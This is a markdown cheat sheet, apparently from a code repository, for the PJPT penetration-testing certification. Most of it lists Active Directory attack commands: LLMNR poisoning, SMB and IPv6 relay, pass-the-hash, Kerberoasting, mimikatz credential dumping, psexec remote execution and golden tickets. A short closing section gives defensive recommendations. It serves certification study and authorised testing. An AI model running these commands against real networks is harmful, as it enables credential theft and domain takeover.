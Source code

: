 
# 🛡️ PJPT Internal Network Pentest Cheat Sheet

Comprehensive cheat sheet tailored for the Practical Junior Penetration Tester (PJPT) certification by TCM Security.

---

## 🧭 Recon & Enumeration

```bash
arp-scan -l
netdiscover -r <subnet>
nmap -T4 -p- -sS -A <target>
```

---

## 🏹 Initial Active Directory Attacks

### 🔄 LLMNR Poisoning

```bash
responder -I tun0 -dwPv
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

### 📎 SMB Relay

```bash
nmap --script=smb2-security-mode.nse -p445 <subnet>
ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```

### 🌐 IPv6 Relay via LDAPS

```bash
mitm6 -d domain.local
ntlmrelayx.py -6 -t ldaps://<DC-IP> -wh fakewpad.domain.local
```

---

## 🔐 Credential Access & Post-Exploitation

### 🧱 Pass-the-Hash

```bash
crackmapexec smb <subnet> -u administrator -H <NTLM-hash>
```

### 🔥 Kerberoasting

```bash
GetUserSPNs.py DOMAIN/user:pass -dc-ip <DC-IP> -request
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

### 💾 Credential Dumping

```bash
secretsdump.py DOMAIN/user:pass@<host>
meterpreter > hashdump
mimikatz # privilege::debug
mimikatz # sekurlsa::logonPasswords
```

---

## ⚙ Remote Code Execution Techniques

### 🖥️ PSEXEC (Impacket)

```bash
psexec.py DOMAIN/user:pass@<target>
```

### 💣 Metasploit PSEXEC

```bash
use exploit/windows/smb/psexec
set RHOST <target>
set SMBUser <user>
set SMBPass <password>
```

### 🔄 WMIExec

```bash
wmiexec.py administrator@<target> --hashes <LM>:<NTLM>
```

---

## 🎟️ Ticket Attacks & Persistence

### 🎫 TGT Harvesting

```bash
getTGT.py DOMAIN/fservice:pass -dc-ip <DC-IP>
export KRB5CCNAME=fservice.ccache
klist
```

### 🥇 Golden Ticket Attack

```powershell
mimikatz # lsadump::lsa /inject /name:krbtgt
mimikatz # kerberos::golden /User:Administrator /domain:domain.local \
 /sid:<SID> /krbtgt:<hash> /id:<RID> /ptt
```

---

## 🧠 Additional Techniques

- **AS-REP Roasting** (against users without Kerberos pre-auth)
- **Zerologon (CVE-2020-1472)** — exploit Netlogon flaw
- **PrintNightmare (CVE-2021-1675)** — RCE via print spooler

---

## 📌 Cleanup & Monitoring Recommendations

- Rotate compromised accounts & service passwords
- Enforce SMB signing, disable LLMNR & NetBIOS
- Monitor for tools like: `responder`, `mitm6`, `ntlmrelayx`, `psexec`, `mimikatz`

---

> ✍️ Inspired by field-tested commands used during the PJPT exam. Always ensure permission before using these tools.
